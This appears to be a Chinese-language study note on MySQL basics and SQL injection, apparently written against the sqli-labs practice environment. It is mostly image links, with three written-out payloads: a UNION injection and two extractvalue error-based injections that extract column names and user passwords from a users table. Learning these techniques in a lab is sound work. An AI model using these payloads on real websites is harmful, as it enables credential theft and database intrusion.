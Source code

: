 ## 增删改

登录数据库 `mysql -uroot -p`

查看数据库 `show databases;`

创建数据库 `creare database <数据库名>charset utf8`

删除数据库 `drop database <数据库名>`

创建数据表 `create table <数据库名>`

## 数据库查询

![1686670206235](image/SQL/1686670206235.png)

![1686670621759](image/SQL/1686670621759.png)

![1686671869053](image/SQL/1686671869053.png)

![1686671912742](image/SQL/1686671912742.png)

![1686671950093](image/SQL/1686671950093.png)

## SQL注入基础

![1686703581560](image/SQL/1686703581560.png)

![1686703870062](image/SQL/1686703870062.png)

![1686703914643](image/SQL/1686703914643.png)

![1686704528929](image/SQL/1686704528929.png)

![1686704564533](image/SQL/1686704564533.png)

![1686707211907](image/SQL/1686707211907.png)

![1686707167676](image/SQL/1686707167676.png)

![1686706779060](image/SQL/1686706779060.png)

![1686706994634](image/SQL/1686706994634.png)

![1686707088801](image/SQL/1686707088801.png)

![1686709251217](image/SQL/1686709251217.png)

```sql
http://172.20.54.84/Less-2/?id=-1 union select 1,group_concat(column_name),(select group_concat(username,password) from users) from information_schema.columns where table_schema=database() and table_name='users' --+
```

## 报错注入

![1686709473763](image/SQL/1686709473763.png)

![1686710574190](image/SQL/1686710574190.png)

![1686710601191](image/SQL/1686710601191.png)

![1686710682586](image/SQL/1686710682586.png)

![1686712368312](image/SQL/1686712368312.png)

```sql
http://172.28.72.167/Less-5/?id=1' and 1=extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users')))--+
```

```sql
http://172.28.72.167/Less-5/?id=1' and 1=extractvalue(1,concat(0x7e,(select group_concat(username,'~',password) from users )))--+
```
